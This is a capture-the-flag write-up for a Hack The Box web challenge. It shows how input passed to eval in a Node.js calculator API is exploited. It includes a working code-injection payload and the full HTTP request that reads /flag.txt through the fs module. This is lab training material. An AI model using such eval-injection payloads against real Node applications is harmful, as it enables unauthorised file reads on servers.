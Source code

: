 ```yaml
---
title: HTB - JS Calc - web - easy
published: true
---
```



Our input is passed directly to eval in `challenge/helpers/calculatorHelper.js:5`. The following payload will return to us `1` in the `message` and `console.log` in the `node` environment console:

```json
{
    "formula": "(() => {console.log(1); return 1;})()"
}
```

This input results in the following interpolated string:

```js
eval(`(function() { return (() => {console.log(1); return 1;})() ;}())`);
```

which for readability I will write as:

```js
(function() { return (() => {console.log(1); return 1;})() ;}())
```

This is basically a self-executing function that returns the result of the inner function in javascript. so basically what is happening is:
```js
console.log(1);
return 1;
```

When inspecting Docker container's filesystem, we can see that the flag is stored in `/flag.txt`, in order to read files in nodejs we can use `fs` module. After submitting:

```js
const fs = require('fs');
const flag = fs.readFileSync('/flag.txt', 'utf8');
return flag;
```

We get the flag in the response of the request:

```json
POST /api/calculate HTTP/1.1
Host: <host>
Content-Type: application/json

{
    "formula": "(() => {const fs = require('fs');const flag = fs.readFileSync('/flag.txt', 'utf8');return flag;})()"
}
```

We get the flag in response.
